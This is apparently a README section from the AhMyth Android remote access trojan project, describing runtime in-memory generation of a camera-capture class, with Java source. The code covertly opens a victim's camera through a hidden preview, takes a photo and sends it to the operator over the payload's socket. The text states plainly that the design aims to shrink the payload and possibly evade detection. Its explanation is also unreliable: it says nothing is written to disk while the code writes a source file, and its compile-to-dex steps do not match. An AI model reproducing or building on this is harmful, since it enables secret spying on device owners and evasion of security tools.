 ## <div align="center">Dynamic "In-Memory at Runtime" Camera Class Generation & Loading</div>
> A feature inspired by Metasploit Framework's Android Meterpreter payload.

If this ever does become a reality it will aid GREATLY in minimising the payload size and possibly detection as well.

<details>
  <summary>Experminetal Code Explanation</summary>
  <br>
  
This code is responsible for Generating and Loading the *CameraManager* class file used by the AhMyth payload to aquire Camera Access, all dynamically in memory without anything being written to disk.
  
**Generation Phase (In Memory):**

1. **Retrieve Source Code (In Memory):**
   - The source code is retrieved from `CamTemp.CAMERA_SOURCE_CODE` and stored in the `camTempSourceCode` variable, all in memory.

2. **Generate Dynamic Class (In Memory):**
   - Using the retrieved source code, a dynamic Java class is generated in memory using `TypeSpec.classBuilder("CameraManager")` from the `JavaPoet` library. The class is created entirely in memory.

3. **Create Java File (In Memory):**
   - A Java file, containing the generated dynamic class, is created in memory (`JavaFile`). The class is placed in a package named "ahmyth.mine.king.ahmyth," but this is all done in memory.

4. **Write Java Code to a File (On Disk):**
   - The generated Java code is written to a file named "CameraManager.java" using a `FileWriter`, but this file is also created in memory and later used for compilation. No physical file is written to disk during this phase.

**Loading Phase (In Memory):**

1. **Compilation (In Memory):**
   - The generated Java code in "CameraManager.java" is compiled entirely in memory using the Java Compiler API (`JavaCompiler`). This means the compilation result is held in memory.

2. **Check Compilation Result (In Memory):**
   - After compilation, it checks the `compilationResult` entirely in memory to determine if the compilation was successful or not. There is no physical file on disk involved in this step.

3. **Load Compiled Class (In Memory):**
   - A `DexClassLoader` is used to load the compiled class in memory from the generated .dex file, without writing anything to disk.

4. **Create Instance (In Memory):**
   - Finally, an instance of the dynamically generated class is created entirely in memory using reflection (`generatedClass.getDeclaredConstructor().newInstance()`). This instance exists only in memory and can be used for further operations.

So, to reiterate, the provided code performs all of these operations in memory, except for generating the "CameraManager.java" file, which is later used for compilation but is not written to physical disk. Everything else, including class generation, compilation, loading, and instance creation, occurs entirely in memory.

</details>

<details>
  <summary>Code</summary>

- ClassGen.java
> Responsible for Dynamically both Generating and Loading the Camera Manager Class at runtime completely in-memory.
```java
package ahmyth.mine.king.ahmyth;

import com.squareup.javapoet.*;
import javax.tools.JavaCompiler;
import javax.tools.ToolProvider;
import java.io.FileWriter;
import java.lang.reflect.Method;
import dalvik.system.DexClassLoader;

public class ClassGen {
    public static void main(String[] args) {
        try {
            String camTempSourceCode = CamTemp.CAMERA_SOURCE_CODE;

            TypeSpec generatedClass = TypeSpec.classBuilder("CameraManager") // Change the class name here
                    .addCode(camTempSourceCode)
                    .build();

            JavaFile javaFile = JavaFile.builder("ahmyth.mine.king.ahmyth", generatedClass)
                    .build();

            String javaCode = javaFile.toString();

            try (FileWriter writer = new FileWriter("CameraManager.java")) { // Change the output file name here
                writer.write(javaCode);
            }

            String dexPath = "./";
            String optimizedDexOutputPath = "./";

            JavaCompiler compiler = ToolProvider.getSystemJavaCompiler();
            int compilationResult = compiler.run(null, null, null, "CameraManager.java"); // Change the input file name here

            if (compilationResult == 0) {
                System.out.println("Compilation succeeded.");
            } else {
                System.err.println("Compilation failed.");
                System.exit(compilationResult);
            }

            ClassLoader classLoader = new DexClassLoader(
                    "CameraManager.dex", // Change the compiled .dex file name here
                    optimizedDexOutputPath,
                    null,
                    ClassLoader.getSystemClassLoader()
            );

            executeDynamicallyGeneratedClass(classLoader);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static void executeDynamicallyGeneratedClass(ClassLoader classLoader) throws Exception {
        Class<?> generatedClass = classLoader.loadClass("ahmyth.mine.king.ahmyth.CameraManager"); // Change the class name here
        Object generatedInstance = generatedClass.getDeclaredConstructor().newInstance();
    }
}
```
- CamTemp.java
> Template file for the Camera Manager Class needed for dynamic generation
```java
package ahmyth.mine.king.ahmyth;

public class CamTemp {
    public static final String CAMERA_SOURCE_CODE =
            "package ahmyth.mine.king.ahmyth;\n" +
            "import android.content.Context;\n" +
            "import android.content.pm.PackageManager;\n" +
            "import android.graphics.Bitmap;\n" +
            "import android.graphics.BitmapFactory;\n" +
            "import android.graphics.SurfaceTexture;\n" +
            "import android.hardware.Camera;\n" +
            "import android.hardware.Camera.PictureCallback;\n" +
            "import android.hardware.Camera.Parameters;\n" +
            "import org.json.JSONArray;\n" +
            "import org.json.JSONException;\n" +
            "import org.json.JSONObject;\n" +
            "import java.io.ByteArrayOutputStream;\n" +
            "public class CameraManager {\n" +
            "    private Context context;\n" +
            "    private Camera camera;\n" +
            "    public CameraManager(Context context) {\n" +
            "        this.context = context;\n" +
            "    }\n" +
            "    public void startUp(int cameraID) {\n" +
            "        camera = Camera.open(cameraID);\n" +
            "        Parameters parameters = camera.getParameters();\n" +
            "        camera.setParameters(parameters);\n" +
            "        try {\n" +
            "            camera.setPreviewTexture(new SurfaceTexture(0));\n" +
            "            camera.startPreview();\n" +
            "        } catch (Exception e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "        camera.takePicture(null, null, new PictureCallback() {\n" +
            "            @Override\n" +
            "            public void onPictureTaken(byte[] data, Camera camera) {\n" +
            "                releaseCamera();\n" +
            "                sendPhoto(data);\n" +
            "            }\n" +
            "        });\n" +
            "    }\n" +
            "    private void sendPhoto(byte[] data) {\n" +
            "        try {\n" +
            "            Bitmap bitmap = BitmapFactory.decodeByteArray(data, 0, data.length);\n" +
            "            ByteArrayOutputStream bos = new ByteArrayOutputStream();\n" +
            "            bitmap.compress(Bitmap.CompressFormat.JPEG, 20, bos);\n" +
            "            JSONObject object = new JSONObject();\n" +
            "            object.put(\"image\", true);\n" +
            "            object.put(\"buffer\", bos.toByteArray());\n" +
            "            IOSocket.getInstance().getIoSocket().emit(\"x0000ca\", object);\n" +
            "        } catch (JSONException e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "    }\n" +
            "    private void releaseCamera() {\n" +
            "        if (camera != null) {\n" +
            "            camera.stopPreview();\n" +
            "            camera.release();\n" +
            "            camera = null;\n" +
            "        }\n" +
            "    }\n" +
            "    public JSONObject findCameraList() {\n" +
            "        if (!context.getPackageManager().hasSystemFeature(PackageManager.FEATURE_CAMERA)) {\n" +
            "            return null;\n" +
            "        }\n" +
            "        try {\n" +
            "            JSONObject cameras = new JSONObject();\n" +
            "            JSONArray list = new JSONArray();\n" +
            "            cameras.put(\"camList\", true);\n" +
            "            int numberOfCameras = Camera.getNumberOfCameras();\n" +
            "            for (int i = 0; i < numberOfCameras; i++) {\n" +
            "                Camera.CameraInfo info = new Camera.CameraInfo();\n" +
            "                Camera.getCameraInfo(i, info);\n" +
            "                JSONObject jo = new JSONObject();\n" +
            "                jo.put(\"id\", i);\n" +
            "                if (info.facing == Camera.CameraInfo.CAMERA_FACING_FRONT) {\n" +
            "                    jo.put(\"name\", \"Front\");\n" +
            "                } else if (info.facing == Camera.CameraInfo.CAMERA_FACING_BACK) {\n" +
            "                    jo.put(\"name\", \"Back\");\n" +
            "                } else {\n" +
            "                    jo.put(\"name\", \"Other\");\n" +
            "                }\n" +
            "                list.put(jo);\n" +
            "            }\n" +
            "            cameras.put(\"list\", list);\n" +
            "            return cameras;\n" +
            "        } catch (JSONException e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "        return null;\n" +
            "    }\n" +
            "}\n" +
            "}";
}
```

</details>
